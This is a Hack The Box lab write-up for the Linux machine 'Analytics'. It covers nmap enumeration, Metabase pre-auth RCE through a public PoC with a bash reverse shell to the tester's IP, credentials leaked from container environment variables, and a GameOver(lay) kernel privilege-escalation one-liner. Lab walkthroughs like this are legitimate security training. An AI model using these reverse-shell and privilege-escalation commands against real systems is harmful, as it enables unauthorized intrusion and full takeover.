




# Analytics
## OS: Linux
## Difficulty: Easy

## Enumeration:

I'll start with a port scan.
```bash
nmap -sC -sV -p- -oN outputNMAP.txt 10.129.229.224  --max-retries 1
```

```
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://analytical.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We need to add "analytical.htb" to our hosts file.

Now let's check the website.


Trying to access the login page redirects us to http://data.analytical.htb/ so we'll need to add data.analytical.htb to our hosts file.



We can see Metabase is being used. Searching for CVE I came across this:
https://github.com/m3m0o/metabase-pre-auth-rce-poc

Even if we don't know the version, we can still try to follow the CVE.

## Foothold:

We'll first need to acquire the setup token found at http://data.analytical.htb/api/session/properties.

And we found it:

```
"setup-token": "249fa03d-fd94-4d5b-b94f-b4ebf3df681f"
```

Now let's start a listening port and try to run the script.

```bash
rlwrap nc -lnvp 6666

python main.py -u http://data.analytical.htb -t 249fa03d-fd94-4d5b-b94f-b4ebf3df681f  -c "bash -i >& /dev/tcp/10.10.14.131/6666 0>&1"
```



And it worked!

## Docker:

Listing the files in the / directory we can see the following:
```bash
ls -la
total 88
drwxr-xr-x    1 root     root          4096 Sep  2 18:44 .
drwxr-xr-x    1 root     root          4096 Sep  2 18:44 ..
-rwxr-xr-x    1 root     root             0 Sep  2 18:44 .dockerenv
drwxr-xr-x    1 root     root          4096 Jun 29  2023 app
drwxr-xr-x    1 root     root          4096 Jun 29  2023 bin
drwxr-xr-x    5 root     root           340 Sep  2 18:44 dev
drwxr-xr-x    1 root     root          4096 Sep  2 18:44 etc
drwxr-xr-x    1 root     root          4096 Aug  3  2023 home
drwxr-xr-x    1 root     root          4096 Jun 14  2023 lib
drwxr-xr-x    5 root     root          4096 Jun 14  2023 media
drwxr-xr-x    1 metabase metabase      4096 Aug  3  2023 metabase.db
drwxr-xr-x    2 root     root          4096 Jun 14  2023 mnt
drwxr-xr-x    1 root     root          4096 Jun 15  2023 opt
drwxrwxrwx    1 root     root          4096 Aug  7  2023 plugins
dr-xr-xr-x  208 root     root             0 Sep  2 18:44 proc
drwx------    1 root     root          4096 Aug  3  2023 root
drwxr-xr-x    2 root     root          4096 Jun 14  2023 run
drwxr-xr-x    2 root     root          4096 Jun 14  2023 sbin
drwxr-xr-x    2 root     root          4096 Jun 14  2023 srv
dr-xr-xr-x   13 root     root             0 Sep  2 18:44 sys
drwxrwxrwt    1 root     root          4096 Aug  3  2023 tmp
drwxr-xr-x    1 root     root          4096 Jun 29  2023 usr
drwxr-xr-x    1 root     root          4096 Jun 14  2023 var
```

The file .dockerenv suggests we are in a container. 

I found some interesting environment variables.
```bash
env

META_USER=metalytics
META_PASS=An4lytics_ds20223#
```

We can use these credentials to establish a ssh connection.

```bash
ssh metalytics@analytical.htb
An4lytics_ds20223#
```



And it worked! Now we can get the user flag.

```bash
cat ~/user.txt
```

## We got the user flag!

## Privilege escalation:

The kernel version is vulnerable to GameOver(lay) exploit.

```bash
hostnamectl

          Kernel: Linux 6.2.0-25-generic
```

I'll use the following POC:
https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629

```bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
```



And it worked! Now we can get the root flag.

```bash
cat /root/root.txt
```

## We got the root flag!